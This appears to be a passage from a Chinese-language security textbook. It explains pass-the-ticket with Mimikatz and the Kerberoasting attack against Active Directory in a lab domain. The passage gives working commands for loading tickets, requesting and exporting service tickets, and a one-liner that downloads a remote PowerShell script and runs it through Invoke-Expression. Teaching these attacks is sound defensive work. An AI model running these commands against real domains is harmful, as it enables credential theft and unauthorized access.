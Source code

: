 图 6.12 – 导出的域管理员票据

现在，我们可以通过以下命令将其中一个票据加载到我们的会话中：

```
> kerberos::ptt [0;2856bf]-2-0-40e10000-administrator@krbtgt-PSSEC.LOCAL.kirbi
> misc::cmd
```

**misc::cmd** 命令允许你打开一个 **cmd** 命令行，你可以在这里继续进行其他操作。

### Kerberoasting 攻击

**Kerberoasting** 是一种攻击方式，涉及利用 Kerberos 认证协议中的漏洞。在这种攻击中，攻击者可以从使用 Kerberos 认证的服务账户中提取密码哈希，并利用这些哈希尝试离线破解密码。一旦攻击者成功破解密码，他们可以使用该密码获得对其他系统和敏感数据的未授权访问。

为了执行 Kerberoasting 攻击，攻击者通常从识别使用 Kerberos 认证的服务账户开始。这些账户通常有与之关联的 SPN。Tim Medin 写了一个脚本，可以帮助你识别具有 SPN 的账户，你可以从 GitHub 下载并执行该脚本：

```
> Invoke-Expression (Invoke-WebRequest -UseBasicParsing "https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1")
```

以下截图展示了我们如何运行该脚本并找到具有设置 SPN 的 **IIS-User** 账户：

![图 6.13 – 使用 SPN 获取账户](img/B16679_06_013.jpg)

图 6.13 – 使用 SPN 获取账户

攻击者随后从 Kerberos 认证服务请求服务账户的 TGT，如下所示：

```
> Add-Type -AssemblyName System.IdentityModel
> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList IIS-User/server.PSSec.local:80
```

一旦攻击者获得了服务票据，他们可以使用 Mimikatz 或类似工具提取票据的加密哈希。使用 Mimikatz，你可以通过 **kerberos::list /****export** 命令提取票据。

所有可用的票据将被提取到你运行 **mimikatz.exe** 的文件夹中，并带有 **.kirbi** 文件扩展名。

在攻击者尝试从票据哈希中破解密码之前，需要先进行转换。**EmpireProject** 中的 **Invoke-Kerberoast.ps1** 脚本提供了一个非常方便的方法来实现这一点。该脚本可以从 [`github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1`](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1) 下载。
